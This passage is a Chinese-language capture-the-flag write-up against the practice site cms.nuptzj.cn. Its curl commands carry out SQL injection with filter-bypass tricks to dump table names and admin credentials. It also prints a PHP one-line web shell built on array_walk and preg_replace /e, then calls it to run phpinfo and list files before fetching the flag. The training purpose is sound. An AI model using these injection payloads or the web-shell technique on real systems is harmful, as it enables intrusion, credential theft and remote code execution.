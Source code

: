 ```shell
curl -X POST -H 'User-Agent: Xlcteam Browser' http://cms.nuptzj.cn/so.php -d 'soid=25252%09un%20ion%09sel%20ect%091%2Ctable_nanameme%2Ccolumn_nanameme%2C4%09fr%20om%09infoorrmation_schema.columns%09where%09table_schema%09in%09%28database%28%29%29%09limit%091%09offset%090'

# 遍历 admin 表
# admin 102 117 99 107 114 117 110 116 117
# quote("25252\tun ion\tsel ect\t1,usernanameme,userppassass,4\tfr om\tadadminmin\tlimit\t1\toffset\t0")
curl -X POST -H 'User-Agent: Xlcteam Browser' http://cms.nuptzj.cn/so.php -d 'soid=25252%09un%20ion%09sel%20ect%091%2Cusernanameme%2Cuserppassass%2C4%09fr%20om%09adadminmin%09limit%091%09offset%090'

# 密码比较奇怪，看一下是什么类型的？
# quote("25252\tun ion\tsel ect\t1,column_type,column_nanameme,4\tfr om\tinfoorrmation_schema.columns\twhere\ttable_schema\tin\t(database())\tlimit\t1\toffset\t2")
curl -X POST -H 'User-Agent: Xlcteam Browser' http://cms.nuptzj.cn/so.php -d 'soid=25252%09un%20ion%09sel%20ect%091%2Ccolumn_type%2Ccolumn_nanameme%2C4%09fr%20om%09infoorrmation_schema.columns%09where%09table_schema%09in%09%28database%28%29%29%09limit%091%09offset%092'

# 密码 fuckruntu 我怎么感觉像你在骂人
# ''.join(map(lambda x: chr(int(x)), '102 117 99 107 114 117 110 116 117'.split()))
```

现在拿到了用户名admin和密码fuckruntu，但是进行不下去了，不知道下一步该干嘛。最后查了一下资料，原来这里有个后台的管理web，要用这个用户名密码登录进去；而这个web的url和上边的隐藏目录 `http://cms.nuptzj.cn/loginxlcteam`有关。

登录之后提示根目录有一个一句话木马 xlcteam.php 。看一下源代码：

```php

<?php
$e = $_REQUEST['www'];
$arr = array($_POST['wtf'] => '|.*|e',);
array_walk($arr, $e, '');
?>
```
[array_walk](https://www.php.net/manual/en/function.array-walk.php) 的作用和python的`map`类似；这个php的大意是从http参数里面取出www的值并当作一个callback函数应用到数组arr。

- 这个callback的第一个参数是 `'|.*|e'` ，第二个参数是表单的wtf的值。
- `'|.*|e'`是一个能够匹配所有非换行字符串PCRE正则表达式；
- 两个竖杠是[delimiter](https://www.php.net/manual/en/regexp.reference.delimiters.php)，其实用斜杠也可以的；
- `e` 是一个表达式修饰符，在[php5.5以前](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php)，如果`preg_replace` 的表达式使用了e修饰符，替换的结果就会被当作可变函数来执行。

因此结合 `preg_replace` 就能执行php函数了：

```shell
# PHP 5.3
curl http://cms.nuptzj.cn/xlcteam.php?www=preg_replace -X POST -d 'wtf=phpinfo();'
# 遍历当前目录
curl http://cms.nuptzj.cn/xlcteam.php?www=preg_replace -X POST -d 'wtf=print_r(scandir("."))'
# 似乎只能包含当前目录，不能包含上一级和根目录
# 发现了答案
curl 'http://cms.nuptzj.cn/about.php?file=恭喜你获得flag2.txt'
```
